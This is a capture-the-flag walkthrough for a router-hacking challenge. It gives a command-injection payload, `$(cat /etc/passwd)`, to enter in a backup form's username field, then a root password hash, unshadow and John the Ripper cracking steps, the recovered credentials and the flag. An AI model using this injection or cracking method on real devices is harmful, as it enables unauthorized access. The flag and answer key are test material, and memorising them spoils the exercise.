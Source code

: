 # 🎩 Hash’em - L13 C08

Agent 707, we've managed to get physical access to a router the gang are using on their ship. We want you to use that access to get the username and password for SSH.

**Tip:** RCE? You'll crack it! Then, send in format: username / password.

<details><summary>

## Need a hint?</summary>

```txt
💡 Hint: Some previous command injection bypasses still work and
   information on "shadowing" can be found here: https://erev0s.com/blog/cracking-etcshadow-john/
```

</details>

<details><summary>

## Step by Step</summary>

- Navigate to "Backup Settings" on the left side of the webpage
- Type and enter `$(cat /etc/passwd)` in the username section
- A list of shadowed passwords should show up, copy the first one from root
- Create two files with the following names and content
  - Shadow, with the line of the root user (`root:$1$gaiiqAXv$UykKlBl6vUsgBc.rUiFk80:0:0:root:/root:/bin/bash`)
  - Passwd - with the default root entry for /etc/passwd (`root:x:0:0:root:/root:/bin/bash`)
- Run `unshadow Passwd Shadow > Unshadow`
- Then run `john --wordlist=/usr/share/wordlist/rockyou.txt Unshadow`

![cracking the password](/assets/hashem1.png)

- Submit the flag by selecting the iPhone from the left and typing `root / topcat`

`flag: 1KNfAV0VTlgMEqWhR7ZG`

</details>
